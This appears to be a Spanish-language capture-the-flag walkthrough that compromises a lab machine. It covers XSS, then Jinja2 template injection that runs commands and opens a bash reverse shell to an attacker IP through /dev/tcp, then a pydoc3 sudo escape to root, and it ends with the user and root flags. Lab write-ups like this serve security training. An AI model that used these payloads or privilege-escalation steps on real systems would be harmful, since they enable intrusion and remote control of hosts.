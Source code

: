 nmap: 192.168.1.130

![image](https://github.com/user-attachments/assets/04153be9-dbfa-42ee-9f66-3fdf4d03ee92)

al entrar al puerto 80 no hay nada mas que un apache, así que ingresamos por el puerto 8089

![image](https://github.com/user-attachments/assets/a3aa1ef4-3c4b-431a-ab69-5d1d3cd2cd5e)


vemos que podemos colocar muchas cosas ahí, así que probé inyectando un XSS

![image](https://github.com/user-attachments/assets/bad02228-eb0e-4ffd-bb19-5f9b5282d3aa)

y funciona la inyección XSS 

ahora probaremos un ataque SSTI 
una explicación rápida y buena con ejemplos: https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=%7B%7B7*7%7D%7D#basic-tests-8

![image](https://github.com/user-attachments/assets/3e4deccc-01b6-4302-b423-94a88aa45544)

y funciona, porque nos devuelve el valor 

![image](https://github.com/user-attachments/assets/9550e161-fc82-441f-b8cd-08beb3b84dca)

de la misma pagina de explicacion encontre este comando

     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

como se ve en el código podemos ver que que hay un 'id' o sea que al lanzarlo por el ejecutable que hay ahí nos debería mostrar usuarios y grupo. 

![image](https://github.com/user-attachments/assets/08efb840-176e-4bc5-a4a2-d857c32600f0)

al igual que whoami porque podemos ver que nos muestra el usuario caldo

![image](https://github.com/user-attachments/assets/b2d70004-c3cb-491a-991b-12f2b6479221)

ahora vamos a lanzar una reverse y colocar el puerto en escucha

lanzamos:

     {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.1.108/1234 0>&1\'').read() }}


![image](https://github.com/user-attachments/assets/4cc43c1b-4349-4145-9bea-4e694d069db5)

 estamos dentro y también de primero nos da la flag de usuario

![image](https://github.com/user-attachments/assets/2598a2d8-c5a3-4007-b867-73394a338c07)

al hacer un sudo -l  vemos que a nivel de sudoers podemos ejecutar el binario pydoc3 para generar documentación a partir de módulos de Python.
y en un blog chino https://cloud.tencent.com.cn/developer/information/%E5%A6%82%E4%BD%95%E6%9F%A5%E7%9C%8Blinux%E4%B8%8A%E7%9A%84ftp que se tradujo a español encontré este comando

     sudo pydoc3 -b 8888

que si lo ejecutamos nos mandara aquí

![image](https://github.com/user-attachments/assets/7b39f3a0-a611-4b64-a200-4b9e035c9335)

colocamos

     !/bin/sh


nos saldremos y haremos un bash -p

![[the hackers labs/avanzado/caldo de avecren/root.png]]

y seremos root! 





f3e431cd1129e9879e482fcb2cc151e8 user
44df858281024b69291f503f8921136c root
